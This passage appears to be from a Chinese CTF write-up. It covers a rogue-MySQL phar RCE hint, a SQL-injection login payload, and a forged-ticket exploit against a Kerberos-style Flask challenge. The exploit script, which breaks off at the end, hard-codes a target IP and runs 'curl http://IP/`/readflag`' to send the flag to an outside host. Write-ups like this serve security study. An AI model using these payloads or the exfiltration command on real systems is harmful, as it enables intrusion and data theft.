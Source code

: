 服务器上用rogue-mysql-server读取`phar://..../xx.gif`即可RCE

### sqlcheckin

这源码给的意义是啥？

username=admin&password=0'+'0

### dooog

出题人用三个Flask Server模拟了krb认证流程

先由client获取TGT，再持TGT获取Ticket，最后用Ticket请求cmd_server。对cmd的校验发生在持TGT请求ticket的阶段，假如我们想绕过KDC的校验，只能拿到cmd_server的master_key直接伪造Ticket，但实际是不可能的

之后注意到KDC校验过程中程序控制流存在漏洞

```python
if data['username'] == auth_data[0] == username:
    if int(time.time()) - data['timestamp'] < 60:
        if 0 and cmd not in ['whoami', 'ls']:
            return 'cmd error'
    session_key = genSession_key()
    session_key_enc = base64.b64encode(
        cryptor.encrypt(session_key))
    cryptor = AESCipher(auth_data[1])
    client_message = base64.b64encode(cryptor.encrypt(session_key))
    server = User.query.filter_by(username='cmd_server').first()
    cryptor = AESCipher(server.master_key)
    server_message = base64.b64encode(
        cryptor.encrypt(session_key + '|' + data['username'] +
                        '|' + cmd))
    return client_message + '|' + server_message
```

时间戳校验大于60则不校验cmd，且题目的KDC和cmd_server都监听在公网

EXP修改一下题目的client即可

```python
import requests
import base64
import json
from toolkit import AESCipher
import time

username = 'iv4n'
master_key = 'aaaaaaaa'
cmd = 'curl http://IP/`/readflag`'

cryptor = AESCipher(master_key)
authenticator = cryptor.encrypt(json.dumps({'username':username, 'timestamp': int(time.time())}))

res = requests.post('http://121.37.164.32:5001/getTGT', 
    data={'username': username, 'authenticator': base64.b64encode(authenticator)})

session_key, TGT = cryptor.decrypt(base64.b64decode(res.content.split('|')[0])), res.content.split('|')[1]
print('GET TGT DONE')
#visit TGS
cryptor = AESCipher(session_key)
authenticator = cryptor.encrypt(json.dumps({'username': username, 'timestamp': 1}))
res = requests.post('http://121.37.164.32:5001/getTicket',  data={'username': username, 'cmd': cmd, 'authenticator': base64.b64encode(authenticator), 'TGT': TGT})

client_message, server_message = res.content.split('|')
session_key = cryptor.decrypt(base64.b64decode(client_message))
cryptor = AESCipher(session_key)
```